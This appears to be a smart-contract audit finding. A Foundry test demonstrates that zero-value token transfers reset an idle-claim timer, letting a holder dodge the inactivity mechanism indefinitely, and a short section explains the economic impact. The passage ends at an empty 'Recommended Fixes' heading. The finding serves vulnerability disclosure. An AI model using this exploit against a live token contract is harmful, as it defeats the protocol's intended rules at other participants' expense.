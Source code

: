 
## Proof-of-Concept (Foundry Test)

```solidity
function testZeroValueTransferBypassesClaim() public {
    // Setup: Alice holds tokens, lastTransferTime = 0 (immediately claimable)
    vm.prank(owner);
    token.mint(alice, 1_000_000_000 * 1e18);

    // Fast-forward 90+ days to make Alice's tokens claimable
    vm.warp(block.timestamp + IDLE_PERIOD + 1);

    // Before exploit: Alice's tokens should be claimable
    assertTrue(token.isClaimable(alice));

    // Now Alice sends 0 tokens to Bob (refreshes her timer)
    vm.prank(alice);
    token.transfer(bob, 0);  // Zero-value transfer

    // After exploit: Alice's tokens are NO LONGER claimable
    assertFalse(token.isClaimable(alice));

    // Alice can repeat this every 89 days to stay protected indefinitely
    for (uint i = 0; i < 10; i++) {
        vm.warp(block.timestamp + 89 days);
        vm.prank(alice);
        token.transfer(bob, 0);  // Repeat forever
        assertFalse(token.isClaimable(alice));
    }
}
```

---

## Why This Is a Problem

The idle-claim mechanism serves an important economic purpose:

1. **Token sink** — Removes inactive tokens from circulation
2. **Redistribution** — Reallocates tokens to active participants
3. **Incentive** — Encourages participation and engagement

**By allowing zero-value transfers to reset the timer, users can:**

- Hold tokens passively without penalty
- Bypass the entire inactivity mechanism
- Hoard tokens while contributing nothing
- Undermine the intended economic design

---

## Recommended Fixes
